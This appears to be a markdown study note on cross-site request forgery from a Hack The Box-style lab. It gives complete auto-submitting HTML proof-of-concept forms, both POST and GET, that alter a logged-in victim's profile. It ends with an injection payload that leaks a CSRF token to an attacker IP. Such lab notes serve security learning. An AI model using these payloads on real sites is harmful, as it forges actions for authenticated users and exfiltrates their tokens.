


# CSRF

Cross-Site Request Forgery (CSRF or XSRF) is an attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated.

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="redacted@example.invalid" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

While logged into the target user account, open a new tab and visit the URL hosted on the attacking machine: `http://<Attacker_IP>:<Port>/malicious.html`. Upon visiting the page, you'll observe that the target user's profile details will be altered based on the data embedded within the malicious HTML page being served by the attacker.

*Captura omitida por posibles datos sensibles.*

## GET-based

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/redacted@example.invalid" method="GET">
      <input type="hidden" name="email" value="redacted@example.invalid" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="5d3d079457440b13e88ad917fcab3b2ff6f1ec9d" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

## POST-based



Leak the CSRF token,
```html
<table%20background='%2f%2f10.10.15.5:80%2f
```


